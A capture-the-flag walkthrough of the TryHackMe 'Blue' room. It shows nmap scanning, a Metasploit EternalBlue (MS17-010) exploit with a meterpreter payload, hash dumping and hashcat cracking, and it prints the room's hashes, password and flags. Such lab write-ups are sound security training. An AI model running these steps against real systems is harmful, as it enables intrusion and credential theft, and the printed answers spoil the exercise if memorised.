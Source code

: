 ```yaml
---
title: THM - Walkthrough - Blue [Easy]
date: 2024-08-01 00:00:00 +/-TTTT
categories: [Walkthrough]
tags: [ctf, thm, easy, ms17-010]     # TAG names should always be lowercase
---
```


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/7717bbc69c486931e503a74f3192a4d8.gif" alt="Blue Room Icon" width="200" height="200" />

Welcome to my writeups for the TryHackMe room Blue. That's an easy room that will help you 
practice your Windows exploitation skills using the MS17-010 vulnerability.
The room is available [here](https://tryhackme.com/room/blue).

## Information Gathering

### Port Scanning

We start by using `nmap` to scan the target machine for open ports and services.

```
$ nmap -sV 10.10.145.137
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-27 13:51 EDT
Nmap scan report for 10.10.145.137
Host is up (0.22s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that the target machine has the following services running:
- `MSRPC` on port 135
- `SMB` on ports 139 and 445
- `RDP` on port 3389

### Vulnerability Scanning 

As we see that the target machine is running Windows the name of the room is Blue we can assume 
that the target machine is vulnerable to the MS17-010 vulnerability (EternalBlue) which concerns
the SMB service.
Let's use `nmap` to confirm that.

```
$ nmap --script smb-vuln-ms17-010 -p445 10.10.145.137
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-27 13:53 EDT
Nmap scan report for 10.10.145.137
Host is up (0.22s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 2.69 seconds
```

The target machine is indeed vulnerable to the MS17-010 vulnerability.

## Exploitation

We will use the `msfconsole` to exploit the MS17-010 vulnerability.

```
$ msfconsole
```

```
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 10.10.145.137
msf6 > set LPORT 1234
msf6 > set payload windows/x64/meterpreter/bind_tcp
msf6 > run
```

We have successfully exploited the MS17-010 vulnerability and have a shell on the target machine.

![Meterpreter](assets/img/posts/walkthroughs/blue/20240801_blue_meterpreter.png)

As we exploited the MS17-010 vulnerability we already have a NT AUTHORITY\SYSTEM shell.

## Post-Exploitation

### Dumping Password Hashes

We can dump the password hashes from the target machine using the `hashdump` command.

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

We can now crack the Jon password hashes using `john` or `hashcat`.

```
$ hashcat -a 0 -m 1000 Jon.hash /usr/share/wordlists/rockyou.txt
```

Quickly we obtain Jon's password which is `alqfna22`.

### Flags

We can now find the flags on the target machine.

![Flag 1](assets/img/posts/walkthroughs/blue/20240801_blue_flag1.png)

![Flag 2](assets/img/posts/walkthroughs/blue/20240801_blue_flag2.png)

![Flag 3](assets/img/posts/walkthroughs/blue/20240801_blue_flag3.png)

**Flag 1:** `flag{access_the_machine}`

**Flag 2:** `flag{sam_database_elevated_access}`

**Flag 3:** `flag{admin_documents_can_be_valuable}`

And that's it! We have successfully exploited the MS17-010 vulnerability and completed the room !
